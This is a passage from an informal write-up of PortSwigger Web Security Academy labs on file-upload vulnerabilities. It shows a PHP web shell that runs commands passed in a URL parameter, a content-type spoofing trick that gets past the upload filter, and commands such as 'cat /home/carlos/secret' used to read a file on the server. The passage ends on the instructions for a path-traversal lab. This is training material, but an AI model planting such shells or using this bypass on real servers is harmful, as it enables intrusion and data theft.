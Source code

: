 To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

**Solution:**
Once you enter this lab you have the credentials with username : wiener  |  password : peter
and the you have the file upload but relies on checking user-controllable input to verify this
for this you can try to upload file that content the shell you can create this 

```PHP
<?php 
$output = shell_exec($_GET["cmd"]);
echo "<pre>$output</pre>";
?>
```

![[1.png]]


![[Pasted image 20251017232527.png]]

This not accept because it more secure 😂
it tell you that type application/x-php not accept the file that you uploaded
the type image/png and type image/jpeg accept this 
Now change the type and send the request.

![[Pasted image 20251017234415.png]]
and it uploaded successfully 
Check if the shell work or not by write and command like `cmd=id`
![[Pasted image 20251017234532.png]]

Now the Target to get the path of the `/home/carlos/secret` you can make this if this file on your machine with use command `cat /home/carlos/secret`.

![[Pasted image 20251017234702.png]]

Congratulations, You got the flag🎉🎉🎉.
![[Pasted image 20251017234802.png]]



---


## 3. Lab: Web shell upload via path traversal

**Instructions:**
This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a [secondary vulnerability](https://portswigger.net/web-security/file-path-traversal).

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.
